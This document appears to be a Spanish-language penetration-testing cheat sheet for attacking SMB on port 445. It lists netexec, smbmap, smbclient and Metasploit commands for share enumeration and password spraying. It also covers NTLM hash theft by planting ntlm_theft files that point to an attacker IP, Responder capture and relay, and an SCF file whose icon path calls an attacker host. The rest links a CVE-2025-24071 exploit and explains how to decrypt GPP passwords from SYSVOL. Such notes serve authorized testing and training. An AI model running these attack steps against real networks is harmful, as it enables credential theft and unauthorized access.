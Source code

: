 ```yaml
---
title: 445 - SMB
layout: default
---
```

```bash
nxc smb IP
```

```bash
netexec smb IP -u 'USER' -p 'PASS' -d DOMAIN --shares
```

# Password spraying (hacerlo cuando no se encuentra nada)

Probarlo con:
- Una contraseña válida para un usuario (quizás sea válido para otro)
- Contraseña = usuario

```bash
netexec smb IP -u users.txt -p users.txt -d DOMAIN --continue-on-success --no-bruteforce
```

```bash
netexec smb IP -u users.txt -p "password" -d DOMAIN --continue-on-success --no-bruteforce
```

___

```bash
msfconsole
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS IP_DEL_SERVIDOR
run
```

```bash
smbmap -H IP -u 'null'
```

```bash
smbmap -H IP -u ''
```

```bash
smbclient -L 
```

```bash
smbclient -L IP -N
```

```bash
smbmap -H IP -u USER -p 'PASS'
```

# A veces se buguean los permisos, mejor hacerlo con :

```bash
netexec smb IP -u USER  -p PASS  -d DOMAIN --shares
```

___

```bash
smbclient //IP/NOMBRE_RECURSO -U USER%PASS
```

```bash
smbclient -L IP -N --option='client min protocol=SMB2'
```

Descargar de forma **recursiva**:

```
recurse
prompt
mget *
```

Configuración de samba
```
/etc/samba/smb.conf
```

SMB
```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Shares
HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Shares
```

# Como robar hashes si tengo permisos de escritura:

```bash
git clone https://github.com/Greenwolf/ntlm_theft.git
```

```bash
python3 ntlm_theft.py -g all -s IP-ATACANTE -f test
```

```bash
smbclient //IP/RESOURCE -U USER 'PASS'
```

```
prompt
mput *
```

```bash
sudo responder -I tun0
```

___

SCF file attack

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

SMB relay

```bash
sudo responder -I tun0 -wdv
```

# Con kerberos 

```BASH
nxc smb DC.domain -u 'USER' -p 'PASS' -k --shares
```

```bash
python3 /usr/share/doc/python3-impacket/examples/smbclient.py -k DOMAIN/USER@DC.DOMAIN -no-pass
```

___

# CVE-2025-24071

[💀 Exploit for CVE-2025-24071](https://sploitus.com/exploit?id=B7436966-38EB-53C7-9295-00D0322061AC)

## 🛠️ ¿Quiénes son vulnerables?

Según fuentes como NVD y CVEdetails, están afectados los siguientes sistemas si **no están actualizados**:

### Windows Server:

- **Windows Server 2012 R2**.
    
- **Windows Server 2016** (builds antes de 10.0.14393.7876).
    
- **Windows Server 2019** (builds antes de 10.0.17763.7009).
    
- **Windows Server 2022** (builds antes de 10.0.20348.3328).
    
- **Windows Server 2025 / 2022 23H2** (builds antes de 10.0.25398.1486 y 10.0.26100.3476) [tenable.com+2cvedetails.com+2nvd.nist.gov+2](https://www.cvedetails.com/cve/CVE-2025-24071/?utm_source=chatgpt.com).
    

### Windows 10:

- **1507** (x86/x64): versiones anteriores a 10.0.10240.20947.
    
- **1607** (x86/x64): versiones anteriores a 10.0.14393.7876.
    
- **1809** (x86/x64): versiones anteriores a 10.0.17763.7009.
    
- **21H2**, **22H2** (x64/ARM64/32‑bit): versiones anteriores a los builds correspondientes [cvedetails.com+1nvd.nist.gov+1](https://www.cvedetails.com/cve/CVE-2025-24071/?utm_source=chatgpt.com)[github.com](https://github.com/ThemeHackers/CVE-2025-24071?utm_source=chatgpt.com).
    

### Windows 11:

- **23H2** (x64/ARM64): antes de 10.0.22631.5039.
    
- **24H2** (x64/ARM64): antes de 10.0.26100.3476 [rapid7.com+3cvedetails.com+3github.com+3](https://www.cvedetails.com/cve/CVE-2025-24071/?utm_source=chatgpt.com).


Para ver la versión :

```bash
cmd /c ver
```

```powershell
Get-ComputerInfo | Select-Object OsName, OsVersion, OsBuildNumber
```

```bash
netexec smb IP -d DOMAIN
```

# **SYSVOL > Policies**

El directorio `Policies\` en SMB suele encontrarse en entornos Windows, especialmente en servidores que gestionan **Active Directory (AD)** y políticas de grupo (**Group Policy Objects - GPOs**). Este directorio normalmente se encuentra en la **SYSVOL** compartida de un **Controlador de Dominio (DC)** y contiene configuraciones importantes para los clientes del dominio.

---

### **📂 Contenido típico de `Policies\` en SMB**

Si accedes a un servidor SMB y ves una carpeta `Policies\`, es probable que contenga:

1. **Identificadores de GPOs (GUIDs)**
    
    - Cada política de grupo se almacena en una carpeta con un **GUID** (por ejemplo, `{31B2F340-016D-11D2-945F-00C04FB984F9}`).
    - Estas carpetas contienen la configuración de la política aplicada a usuarios y computadoras en el dominio.
2. **Archivos `GPT.INI`**
    
    - Un archivo `GPT.INI` dentro de cada política define la versión de la política de grupo.
    - Ejemplo de contenido:

	```ini
        [General]
        Version=2
```
        
3. **Carpeta `Machine\`**
    
    - Contiene configuraciones aplicadas a **todas las máquinas** dentro del dominio.
    - Puede incluir:
        - **`Registry.pol`** (configuración del registro para equipos del dominio)
        - **`Scripts\`** (scripts de inicio o cierre de sesión)
        - **`Adm\`** (plantillas administrativas antiguas)
4. **Carpeta `User\`**
    
    - Contiene configuraciones aplicadas a **usuarios** del dominio.
    - Similar a `Machine\`, puede incluir:
        - **`Registry.pol`** (modificaciones del registro para usuarios)
        - **Scripts de inicio/cierre de sesión**.
5. **Carpeta `Preferences\`**
    
    - Almacena configuraciones de **Group Policy Preferences (GPP)**.
    - Puede contener archivos XML con **credenciales cifradas**, lo que es un objetivo interesante en pruebas de seguridad.
6. **Archivos de scripts (`.bat`, `.cmd`, `.vbs`, `.ps1`)**
    
    - Se usan para automatizar configuraciones en máquinas y usuarios cuando inician sesión.

---

### **📌 Importancia de `Policies\` en pruebas de seguridad**

- Puede contener **contraseñas cifradas en XML** dentro de `Preferences\` (se pueden descifrar con herramientas como `gpp-decrypt`).
- Puede permitir la manipulación de políticas si el atacante tiene permisos de escritura (`SeBackupPrivilege` o `SeRestorePrivilege`).
- La presencia de scripts puede ser útil para la **ejecución de código remoto** en equipos del dominio.

Si estás analizando SMB en un entorno Windows, revisar `Policies\` puede proporcionar información valiosa sobre configuraciones de dominio y posibles vectores de ataque. 🚀